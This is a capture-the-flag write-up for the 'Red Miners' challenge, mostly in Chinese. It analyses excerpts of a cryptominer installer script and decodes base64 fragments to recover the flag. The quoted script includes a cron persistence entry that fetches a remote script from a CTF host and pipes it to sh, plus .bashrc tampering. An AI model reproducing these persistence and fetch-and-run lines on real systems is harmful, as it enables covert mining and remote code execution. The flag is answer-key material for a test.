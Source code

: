 # Red Miners

:::note  CHALLENGE DESCRIPTION

Difficulty: VERY EASY

In the race for Vitalium on Mars, the villainous Board of Arodor resorted to desperate measures, needing funds for their mining attempts. They devised a botnet specifically crafted to mine cryptocurrency covertly. We stumbled upon a sample of Arodor's miner's installer on our server. Recognizing the gravity of the situation, we launched a thorough investigation. With you as its leader, you need to unravel the inner workings of the installation mechanism. The discovery served as a turning point, revealing the extent of Arodor's desperation. However, the battle for Vitalium continued, urging us to remain vigilant and adapt our cyber defenses to counter future threats.

在火星上争夺 Vitalium 的竞赛中，邪恶的阿罗多尔董事会采取了孤注一掷的手段，为他们的采矿尝试筹集资金。他们设计了一个专门用于秘密挖掘加密货币的僵尸网络。我们在服务器上偶然发现了阿罗多尔矿工安装程序的一个样本。意识到事态的严重性，我们展开了彻底调查。作为调查的领导者，你需要揭开安装机制的内在运作方式。这一发现成为转折点，揭示了阿罗多尔绝望的程度。然而，争夺 Vitalium 的战斗仍在继续，敦促我们保持警惕，并调整我们的网络防御以应对未来的威胁。

:::

福建提供了一个恶意载荷的部署脚本 `miner_installer.sh`

在其中，基于关键词 `HTB` 抓取关键信息

```shell
echo "ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig==" | base64 -d >> /home/$USER/.bashrc

------

check_if_operation_is_active() {
  local url="http://tossacoin.htb/cGFydDI9Il90aDMxcl93NHkiCg=="

  if curl --silent --head --request GET "$url" | grep "200 OK" >/dev/null; then
    echo "Internet is enabled."
  else
    exit 1
  fi
}

------

crontab -l | sed '/#wget/d' | crontab -
crontab -l | sed '/#curl/d' | crontab -
crontab -l | grep -e "tossacoin.htb" | grep -v grep
if [$? -eq 0]; then
  echo "cron good"
else
  (
    crontab -l 2>/dev/null
    echo '* * * * * $LDR http://tossacoin.htb/ex.sh | sh & echo -n cGFydDE9IkhUQnttMW4xbmciCg==|base64 -d > /dev/null 2>&1'
  ) | crontab -
fi

------

checkExists() {
  CHECK_PATH=$1
  MD5=$2
  sum=$(md5sum $CHECK_PATH | awk '{ print $1}')
  retval=""
  if ["$MD5" = "$sum"]; then
    echo >&2 "$CHECK_PATH is $MD5"
    retval="true"
  else
    echo >&2 "$CHECK_PATH is not $MD5, actual $sum"
    retval="false"
  fi

  dest=$(echo "X3QwX200cnN9Cg=="|base64 -d)
  if [[! -d $dest]];
  then
    mkdir -p "$BIN_PATH/$dest"
  fi
  cp $CHECK_PATH $BIN_PATH/$dest
  echo "$retval"
}
```

找到 Base64 编码后的数据

```plaintext
cGFydDE9IkhUQnttMW4xbmciCg== --> part1="HTB{m1n1ng"
cGFydDI9Il90aDMxcl93NHkiCg== --> part2="_th31r_w4y"
X3QwX200cnN9Cg== --> _t0_m4rs}
ZXhwb3J0IHBhcnQ0PSJfdGgzX3IzZF9wbDRuM3R9Ig== --> export part4="_th3_r3d_pl4n3t}"
```

```plaintext title="Flag"
HTB{m1n1ng_th31r_w4y_t0_m4rs_th3_r3d_pl4n3t}
```
